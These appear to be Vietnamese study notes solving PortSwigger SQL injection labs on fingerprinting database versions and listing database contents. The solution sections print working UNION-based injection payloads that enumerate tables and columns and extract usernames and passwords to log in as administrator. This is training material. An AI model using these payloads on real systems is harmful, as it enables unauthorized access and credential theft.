 1.  Lý thuyết<br>
- ngôn ngữ SQL đc triển khai theo cách giống nhau trên các nền tảng database phổ biến, nhiều cách để pháp hiện và khai thác vul tiêm SQL hoạt động giống nhau trên các loại database khác nhau
- tuy nhiên vẫn tồn tại sự khác nhau (đọc thêm: SQL injection cheat sheet)
- sau khi xác định vul tiêm SQL, lấy in4 từ database là hữu ích để khai thác vul<br>

I. Querying the database type and version<br>
1. Lý thuyết<br>
+ Microsoft, MySQL	SELECT @@version
+ Oracle	SELECT * FROM v$version
+ PostgreSQL	SELECT version()<br>

2. Lab: SQL injection attack, querying the database type and version on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>
https://portswigger.net/academy/labs/launch/974bd9df06352f8b59c679f854a5bc7e3db6c7fb83f72db653509252a6d47e28?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-oracle<br>

3. Giải<br>
+ 2 cột đều thỏa mãn
+ lấy in4 version trên Oracle -> cột BANNER
+ [https://0a16005104b45b0a8096e9dc000c0001.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--](https://0a1e00a7041913a380a8c6e800ea00b2.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--)
+ NULL dùng để đảm bảo số cột<br>

4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>

5. Giải<br>
+ trong MySQL comment cần (#) or (--) đi kèm khoảng trắng
+ dùng burpsuite chặn truy cập và chỉnh sửa<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/f382f7e1-6418-4579-94a5-433aacb0c088)<br>

-> phát hiện 2 cột can tạo string<br>
+ GET /filter?category=Accessories 'UNION+SELECT+@@version,+NULL<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/cbb334ed-0fc2-4f67-a415-1908ec0110ad)<br>

II. Listing the contents of the database<br>
1. Lý thuyết<br>
+ SELECT * FROM information_schema.tables -> xem danh sách bảng<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE<br>
+ SELECT * FROM information_schema.columns WHERE table_name = 'Users' -> xem danh sách các cột của bảng có tên Users<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE<br>

2. Lab: SQL injection attack, listing the database contents on non-Oracle databases<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/81986add1fa6ec438867539cc2f562f01dcf9faf6a0b82766269c3dbeef30b00?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-non-oracle<br>

3. Giải<br>
+ tìm ra số cột có là 2 cột và cả 2 cột can tạo string
+ liệt kê tên table trong database: GET /filter?category=Gifts 'UNION SELECT table_name,NULL FROM information_schema.tables-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/7bd412c2-b6fb-4744-a884-3da828b8fedb)<br>

+ tìm ra đc bảng: users_fwaatj -> tìm các cột trong bảng này
+ truy vấn: GET /filter?category=Gifts 'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_fwaatj'<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/225db2b5-68e1-4794-8f08-02fc6886cac4)<br>

+ lấy username, password từ bảng này: GET /filter?category=Gifts 'UNION SELECT password_mduiwb,username_flbaww FROM users_fwaatj-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/06c99c83-2cd2-485a-9bc9-c5d3b8d6083c)<br>

+ login tài khoản administrator<br>

III. Listing the contents of an Oracle database<br>
1. Lý thuyết<br>
+ liệt kê all bảng: SELECT * FROM all_tables
+ liệt kê cột trong bảng: SELECT * FROM all_tab_columns WHERE table_name = 'USERS'<br>

2. Lab: SQL injection attack, listing the database contents on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to
determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle<br>

3. Giải<br>
+ tìm số cột có và can tạo string: GET /filter?category=Corporate+gifts 'UNION+SELECT+'a','a' FROM dual-- <br>
-> có 2 cột<br>
+ liệt kê all bảng: GET /filter?category=Corporate+gifts 'UNION SELECT table_name,NULL FROM all_tables--<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8ead9a62-f64a-4580-9e1e-221e3034463c)<br>

+ tìm ra đc bảng: USERS_DFIRUZ<br>
-> tìm các cột trong bảng: GET /filter?category=Corporate+gifts 'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_DFIRUZ'-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/a79ed34f-424c-491f-a852-a14ad36bf1f1)<br>

+ lấy in4 từ các cột: GET /filter?category=Corporate+gifts 'UNION SELECT PASSWORD_NQTQDP,USERNAME_LKBOQS FROM  USERS_DFIRUZ-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/0bc7ddd6-8141-4eda-9184-7abf2d486122)<br>

+ login tài khoản administrator<br>






